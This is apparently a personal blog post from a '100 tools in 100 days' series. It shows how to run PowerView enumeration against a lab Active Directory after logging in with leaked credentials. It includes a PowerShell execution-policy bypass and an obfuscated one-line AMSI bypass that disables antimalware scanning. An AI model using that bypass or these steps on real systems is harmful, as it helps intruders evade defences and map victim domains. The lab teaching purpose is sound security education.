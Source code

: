 ```yaml
---
title:  "Day 53 - PowerView - 100 tools in 100 days!"
excerpt: "In this post, I will show you the tool PowerView and how it works."
mathjax: true
layout: post
categories:
    -- github
    -- website
---
```


1 . Introduction
<br>
2 . My Setup
<br>
3 . What is PowerView?
<br>
4 . Why use PowerView?
<br>
5 . How to use PowerView?
<br>
6 . Summary

---

## This post is designed to introduce you to the tool PowerView.

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview0.png)

# <span style="color:red">***Disclaimer***</span> : **Please only use PowerView for professional and educational reasons. Do not use this tool for nefarious or malicious reasons.**

---

### 1. **Introduction**

Welcome to the **fifty-third** blog post of 100 tools in 100 days.<br> 

Find **PowerView** @ GitHub [here](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1).

PowerView was created by Will Schroeder (@harmj0y) find him at:

[GitHub](https://github.com/HarmJ0y)

[LinkedIn](https://www.linkedin.com/in/willschroeder/)

[Twitter](https://twitter.com/harmj0y)


---

### 2. **My Setup**

For running the PowerView tool, I used Kali Linux in a VMware Workstation 16 Player virtualized environment.

For my victim network, I am running a virtualized Active Directory Domain Controller and Windows 10 Enterprise Edition user in a VMware Workstation 16 Player virtualized environment. 

I am using this simple [cheat sheet](https://github.com/drak3hft7/Cheat-Sheet---Active-Directory) for PowerView command reference.

---

### 3. **What is PowerView?**

PowerView is an enumeration PowerShell script that allows a user to discover and identify various aspects of an Active Directory.

---

### 4. **Why use PowerView?**

PowerView is an initial environment reconnaissance tool for security researchers. 

Reconnaissance occurs at various stages of the penetration testing process. 

This particular initial reconnaissance would be after authenticating as a user on an Active Directory domain. 

Therefore, this reconnaissance phase should not be confused with the overall initial discovery reconnaissance phase where you are determining IP addresses, domain names, and services using tools like Nmap. 

PowerView allows a researcher to find other users, domain admins, computers, groups, shares, Group Policies, domain trusts, and much more just as a regular user. 

---

### Before moving forward:

 - I am using a virtualized AD network with a Domain Controller and one user signed in. 
 - For these examples, I had to relax the Firewall settings on the victim.
 - I am using OpenSSH server on the users computer. (the vulnerable service) 
 - Before this point in the attack chain I completed a full enumeration of the network and gained access to leaked credentials for the user.
 - Not every active directory attack will function the same, and likely you would not find an environment where firewall solutions are relaxed.
 - I used BadBlood to automate the creation of my Active Directory, you can do the same by visiting the BadBlood page [here](https://github.com/davidprowe/BadBlood).

### 5. **How to use PowerView?**

It is important to remember that PowerView is a ps1 script that needs to be on the users device to run. 

I will go over: 
 - How to securely copy the script to the victim device. 
 - How to execute the script via an SSH terminal established from leaked credentials. 
 - Some of the scripts functions that can be used for further pivoting and potential privilege escalation. 

Ensure you have [PowerView.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) downloaded to your attacking device.

    Step 1:
    Securely copy the PowerShell script using the following command:

    scp PowerView.ps1 <USERNAME>@<DOMAIN>:<PATH TO DOWNLOAD TO>

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1.png)

    Step 2:
    SSH into the victim device using the leaked credentials:

    ssh <USERNAME>@<DOMAIN>

<br>

    Step 3:
    Enter the following command to upgrade to a PowerShell terminal:
    
    powershell -ep bypass

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1a.png)

    Step 4:
    Enter the following command to bypass Windows Antimalware:

    S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )

<br>

You can read more about this Antimalware Scan Interface bypass [here](https://github.com/S3cur3Th1sSh1t/Amsi-Bypass-Powershell).

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview1b.png)

    Step 5:
    Navigate to the file path where you securely copied the PowerView.ps1 file and enter the following command:

    . .\PowerView.ps1

<br>

You likely will not get a response back from executing PowerView.ps1 which is normal. 

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview2.png)

    Step 6:
    First, lets get the list of users in the environment (note if you have a lot of users this will spam your terminal):

    Get-NetUser

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview3.png)

    Step 7:
    View the properties of the current domain by entering:

    Get-NetDomain

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview4.png)

    Step 8:
    View members of the group "Domain Admins" by entering the following:

    Get-NetGroup

    When prompted for identity 1 enter Domain Admins

    When prompted for identity 2 press enter

<br>

![](https://raw.githubusercontent.com/matthewomccorkle/matthewomccorkle.github.io/master/_posts/assets/100%20tools/powerview/powerview6.png)


### 6. **Summary**

Not all PowerView commands work for every active directory environment, however, many of the options in PowerView are a great place to start when enumerating active directory during your environment reconnaissance. 

I hope you enjoyed this blog post.

Thanks for reading!<br>

If you have suggestions for what tool to cover next, [contact](mailto:matthew.o.mccorkle@gmail.com) me!
